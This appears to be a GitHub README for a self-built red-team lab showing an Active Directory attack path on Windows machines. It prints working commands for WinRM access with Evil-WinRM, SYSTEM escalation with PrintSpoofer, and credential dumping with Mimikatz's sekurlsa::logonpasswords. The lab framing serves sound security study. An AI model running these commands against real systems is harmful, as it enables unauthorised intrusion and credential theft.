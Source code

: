 # Legend of Escalation: Red Team Privilege Escalation Lab

This project simulates a real-world red team attack path from initial foothold to full domain compromise in an Active Directory environment. The lab was built and executed manually using Windows Server 2019 (Domain Controller), Windows 10 (victim workstation), and Kali Linux (attacker).

## Objective

Gain a foothold on a Windows 10 machine via WinRM, escalate to SYSTEM using a privilege escalation exploit, dump credentials, and laterally move to compromise the domain controller.

---

## Lab Setup

### Attacker
- Kali Linux
- Tools used: Evil-WinRM, Mimikatz, Sliver C2, PrintSpoofer

### Victim Workstation
- Windows 10
- WinRM enabled and exposed (password reused)

### Domain Controller
- Windows Server 2019
- Running Active Directory

---

## Attack Path

### 1. Initial Access
- Used password reuse + exposed WinRM to gain access to a low-privileged user on the Windows 10 machine.
- Accessed the system using:
  ```bash
  evil-winrm -i <target-ip> -u <username> -p <password>
  whoami /priv
  .\PrintSpoofer64.exe -i -c cmd.exe
  mimikatz
privilege::debug
sekurlsa::logonpasswords
Used credentials to pivot and gain access to the domain controller.
